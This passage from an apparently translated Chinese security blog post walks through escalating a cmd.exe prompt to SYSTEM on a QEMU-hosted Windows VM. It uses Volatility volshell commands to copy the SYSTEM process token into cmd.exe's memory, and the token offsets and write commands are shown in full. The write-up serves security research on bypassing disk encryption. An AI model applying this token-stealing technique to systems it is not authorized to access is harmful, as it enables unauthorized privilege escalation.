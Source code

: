 
现在，我们可以在QEMU控制台中输入命令c（继续）来恢复VM。当我们命中了cmd.exe中的某个键时，就应该能得到下图这样的可以利用的cmd.exe：

[![](https://p3.ssl.qhimg.com/t01b7cb90256a20342c.png)](https://p3.ssl.qhimg.com/t01b7cb90256a20342c.png)



## 将cmd.exe提升到系统级

我不久前阅读了一篇[很棒的文章](https://blog.xpnsec.com/becoming-system/)，该文章借助WinDBG，展现了在Windows环境下如何进行该操作。接下来，我们试一下能否将相同的技术移植到Volatility中。**事实上，由于Volatility拥有完整的结构，并且它已经对数据进行了分析，所以这一步进行得非常容易，只要有几行Volshell，我们就能将其提升至系统。**

首先，我们从系统进程中获得系统Token：

```
&gt;&gt;&gt; cc(pid=4)

&gt;&gt;&gt; hex(proc().Token.obj_offset)

'0xffff80052585d398L'

&gt;&gt;&gt; db(proc().Token.obj_offset)

0xffff80052585d398 86 59 e1 e3 8d bc ff ff 00 00 00 00 00 00 00 00 .Y..............

0xffff80052585d3a8 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
```

在这里，我将实际Token的地址标红，这就是我们将要写入cmd.exe进程中的内容：

```
&gt;&gt;&gt;
cc(name='cmd.exe')

&gt;&gt;&gt;
hex(proc().Token.obj_offset)

'0xffff800526cb3b58L'

&gt;&gt;&gt;
proc().get_process_address_space().write(0xffff800526cb3b58,"x86x59xe1xe3x8dxbcxffxff")

True
```

由此，我们最终得到了所希望的系统级权限：

[![](https://p3.ssl.qhimg.com/t01bdee6fd4cccbe557.png)](https://p3.ssl.qhimg.com/t01bdee6fd4cccbe557.png)



## 总结

加密是一件非常好的安全措施，但它需要正确地应用。我们还需要知道，加密并不是万能的。当你下次遇到加密的系统时，我希望你不要放弃，开始研究加密是如何应用的，以及是否有变通的方法实现攻击。本文所涉及到的文件请在[这里](https://gist.github.com/DiabloHorn/d0d9745f053412ed672645e127e7301e)查看，但是如果你的QEMU版本不同，你可能需要对它们进行适当的修改，或者也可以考虑使用[原始的Panda git](https://github.com/moyix/panda)。
